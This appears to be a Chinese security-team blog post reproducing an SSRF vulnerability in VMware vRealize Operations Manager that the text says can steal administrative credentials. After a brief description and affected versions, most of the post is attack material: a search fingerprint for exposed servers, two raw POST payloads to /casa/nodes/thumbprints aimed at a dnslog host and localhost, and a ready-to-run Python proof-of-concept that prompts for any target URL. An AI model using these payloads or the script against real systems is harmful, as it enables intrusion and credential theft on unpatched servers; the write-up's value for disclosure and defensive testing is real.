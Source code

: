 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/fAYvOdmZO-daxe5FUI8wQA)

**点击蓝字**

![](https://mmbiz.qpic.cn/mmbiz_gif/4LicHRMXdTzCN26evrT4RsqTLtXuGbdV9oQBNHYEQk7MPDOkic6ARSZ7bt0ysicTvWBjg4MbSDfb28fn5PaiaqUSng/640?wx_fmt=gif)

**关注我们**

  

**_声明  
_**

本文作者：PeiQi  
本文字数：1348

阅读时长：5min

附件 / 链接：点击查看原文下载

**本文属于【狼组安全社区】原创奖励计划，未经许可禁止转载**

  

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，狼组安全团队以及文章作者不为此承担任何责任。

狼组安全团队有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经狼组安全团队允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。

  

**_前言_**

  

WgpSec· 玄狼 漏洞复现组招收师傅 

有意者简历投至 

**peiqi@wgpsec.org**

  

  

一、

**_漏洞描述_**

vRealize Operations Manager API 包含服务器端请求伪造。可以通过网络访问 vRealize Operations Manager API 的恶意攻击者可以执行服务器端请求伪造攻击 (SSRF)，以窃取管理凭据。

二、

**_漏洞影响_**

vRealize_operations_manager: 8.0.0, 8.0.1, 8.3.0, 8.1.0, 8.1.1, 8.2.0, 7.5.0

cloud_foundation: 4.x 3.x

vRealize_suite_lifecycle_manager: 8.x

三、

**_漏洞复现_**

```
title="vRealize Operations Manager"
```

访问登录页面如下

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCxVn3RRpia2Obv3LicvD96TBF1Bib2rVhNzySBaxDjS8cSH8wKcPOo9HwUARC86XUOlZh2boraQO6kw/640?wx_fmt=png)

发送请求包如下  

```
POST /casa/nodes/thumbprints HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 24


["eheeyd.dnslog.cn"]
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCxVn3RRpia2Obv3LicvD96TBqibJQvB9C4icaFjyFO773lbcX6dNF90KZf29PbDMu8exrtu4tNibkh5kQ/640?wx_fmt=png)

```
POST /casa/nodes/thumbprints HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 24


["127.0.0.1:443/ui"]
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCxVn3RRpia2Obv3LicvD96TBibcVqWzclhpqyGqXYn76P0WgxXr2zBvb1QoU3OnjeL52ROvlJcGGTjQ/640?wx_fmt=png)

  

四、

**_漏洞 POC_**

```
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: VMware vRealize Operations Manager                         \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mDnslog      >>> xxx.dnslog.com                                     \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, v):
    vuln_url = target_url + "/casa/nodes/thumbprints"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/json;charset=UTF-8"
    }
    data = '["{}"]'.format(Dnslog)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=10)
        if response.status_code == 200 :
            print("\033[32m[o] 目标 {} 可能存在SSRF漏洞,请检查 Dnslog 响应 \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
    Dnslog = str(input("\033[35mDnslog >>> \033[0m"))
    POC_1(target_url, Dnslog)
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCxVn3RRpia2Obv3LicvD96TBxu68KllQ2lafSsiamesGcljJXicndQ2bVIFKZIsOP5O1WYKdnwLlJBVw/640?wx_fmt=png)

  

**_作者_**

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDCc55WbFiasXQV2ZDzFo8NclAZ2LicCiaeLqxOD3AticSzDm7rRACia7M9m4pickkG8pXR2w1L8maEoBSw/640?wx_fmt=png)

PeiQi

感谢观看啦~

  

**_扫描关注公众号回复加群_**

**_和师傅们一起讨论研究~_**

  

**长**

**按**

**关**

**注**

**WgpSec 狼组安全团队**

微信号：wgpsec

Twitter：@wgpsec

![](https://mmbiz.qpic.cn/mmbiz_jpg/4LicHRMXdTzBhAsD8IU7jiccdSHt39PeyFafMeibktnt9icyS2D2fQrTSS7wdMicbrVlkqfmic6z6cCTlZVRyDicLTrqg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/gdsKIbdQtWAicUIic1QVWzsMLB46NuRg1fbH0q4M7iam8o1oibXgDBNCpwDAmS3ibvRpRIVhHEJRmiaPS5KvACNB5WgQ/640?wx_fmt=gif)